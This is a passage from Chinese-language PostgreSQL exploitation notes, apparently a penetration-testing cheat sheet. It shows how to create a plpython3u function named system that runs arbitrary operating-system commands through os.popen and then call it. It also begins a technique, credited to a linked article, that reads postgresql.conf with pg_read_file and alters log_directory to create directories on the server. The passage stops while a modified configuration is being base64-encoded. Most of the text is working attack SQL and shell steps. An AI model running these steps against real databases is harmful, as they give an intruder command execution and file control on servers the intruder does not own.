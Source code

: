  

查看是否支持 plpython3u

```postgresql
select * from pg_language;
```

 

创建一个 UDF 来执行我们要执行的命令

```postgresql
CREATE FUNCTION system (a text)
  RETURNS text
AS $$
  import os
  return os.popen(a).read()
$$ LANGUAGE plpython3u;
```

 

创建好 UDF 后，进行调用

```shell
select system('ls -la');
```



#### 通过 log_directory 创建文件夹

方法来自于 [https://www.yulegeyu.com/2020/11/16/Postgresql-Superuser-SQL%E6%B3%A8%E5%85%A5-RCE%E4%B9%8B%E6%97%85/](https://www.yulegeyu.com/2020/11/16/Postgresql-Superuser-SQL注入-RCE之旅/) 这篇文章的场景

 

**利用条件**

\- 目标已经配置了 logging_collector = on

 

**描述**

配置文件中的 log_directory 配置的目录不存在时，pgsql 启动会失败，但是如果日志服务已启动,在修改 log_directory 配置后再 reload_conf 目录会被创建

 

**原理**

logging_collector 配置是否开启日志，只能在服务开启时配置，reloadconf 无法修改,log_directory 用来配置 log 日志文件存储到哪个目录，如果 log_directory 配置到一个不存在的目录,pgsql 会创建目录。

 

**利用**

查看配置文件

```postgresql
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

修改配置文件

```postgresql
log_destination = 'csvlog'
log_directory = '/tmp/f0x'
log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'
log_rotation_size = 100MB
log_rotation_age = 1d
log_min_messages = INFO
logging_collector = on
转为 base64 格式

# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base64.txt

```